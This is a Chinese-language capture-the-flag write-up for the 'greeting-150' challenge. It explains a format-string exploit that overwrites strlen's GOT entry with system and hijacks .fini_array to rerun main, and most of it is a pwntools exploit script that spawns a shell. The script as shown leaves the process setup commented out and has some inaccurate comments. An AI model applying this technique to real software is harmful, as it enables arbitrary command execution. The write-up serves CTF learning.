


# greeting-150+格式化字符串

这个是一个格式化字符串的利用保护有一个nx和canary

那我们就可以直接看ida





这里我们可以看到一个明显的格式化字符串

但是我们同时在程序中找到了一个system函数因此我们的思路还是比较清楚的就是把strlen函数改为system函数就可以了

因此我们就要使用到的是一个strlen的函数但是这个时候我们就有了一个新的问题就是main函数是只能运行一次因此我们这里就要去修改.fini_array这个函数体来实现要给无线循环因此我们需要的程序exp脚本就非常简单

```python
#!/usr/bin/env python
#-*- coding:utf-8 -*-

from pwn import *

#sh=process('./greeting_150')
elf=ELF('./greeting_150')
context(os = 'linux',log_level = 'debug')
strlen_got=elf.got['strlen']#为要修改的函数的got表单地址
start_addr=0x080484F0#起始地址
fini_addr=0x08049934#fini_addr
system_plt = 0x08048490 #system的plt地址
    
payload="aa"
payload+=p32(strlen_got+2)
payload+=p32(strlen_got)    
payload+=p32(fini_addr)     
payload+="%2020c%12$hn"#这里修改strlen_got+2地址的第12个写入一个0x804
payload+="%31884c%13$hn"#这里就是向strlen_got地址第13的位置写入一个
payload+="%96c%14$hn"#这里就是向strlen_got地址第13的位置写入一个
     
sh.recvuntil('Please tell me your name... ')# 字符串长度为28
sh.sendline(payload)
sh.recvuntil('Please tell me your name... ')
sh.sendline('/bin/sh')
sh.interactive()

```

---

## 总结

这里我的一个知识盲点主要是.fini_array的一个了解